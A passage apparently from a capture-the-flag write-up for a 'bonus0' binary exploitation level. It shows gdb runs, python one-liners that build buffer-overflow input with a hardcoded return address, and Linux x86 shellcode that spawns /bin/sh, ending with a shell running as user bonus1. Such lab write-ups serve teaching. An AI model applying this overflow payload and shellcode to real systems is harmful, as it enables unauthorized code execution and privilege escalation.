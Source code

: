 	(gdb) r < /tmp/file
	Starting program: /home/user/bonus0/bonus0 < /tmp/file
	- 
	- 
	BBBBBBBBBBBBBBBBBBBBAAAAAAAAAW��� AAAAAAAAAW���
	[Inferior 1 (process 4886) exited normally]

Doesn't work, maybe because the second input was too small, fill the end of the paylaod

	$ python -c 'print "B"*4095+"\n"+"A"*9+"\x57\xfe\xff\xbf"+"B"*30' > /tmp/file

	$ env -i payload=$(python -c 'print "\x90"*500+"\xeb\x1f\x5e\x89\x76\x08\x31\xc0\x88\x46\x07\x89\x46\x0c\xb0\x0b\x89\xf3\x8d\x4e\x08\x8d\x56\x0c\xcd\x80\x31\xdb\x89\xd8\x40\xcd\x80\xe8\xdc\xff\xff\xff/bin/sh"') gdb bonus0 

	(gdb) r < /tmp/file
	Starting program: /home/user/bonus0/bonus0 < /tmp/file
	- 
	- 
	BBBBBBBBBBBBBBBBBBBBAAAAAAAAAW���AAAAAAA��� AAAAAAAAAW���AAAAAAA���
	process 4893 is executing new program: /bin/dash
	[Inferior 1 (process 4893) exited normally]

Good!

	$ cat /tmp/file - | env -i payload=$(python -c 'print "\x90"*500+"\xeb\x1f\x5e\x89\x76\x08\x31\xc0\x88\x46\x07\x89\x46\x0c\xb0\x0b\x89\xf3\x8d\x4e\x08\x8d\x56\x0c\xcd\x80\x31\xdb\x89\xd8\x40\xcd\x80\xe8\xdc\xff\xff\xff/bin/sh"') ./bonus0 
	- 
	- 
	BBBBBBBBBBBBBBBBBBBBAAAAAAAAAW���AAAAAAA��� AAAAAAAAAW���AAAAAAA���
	whoami
	bonus1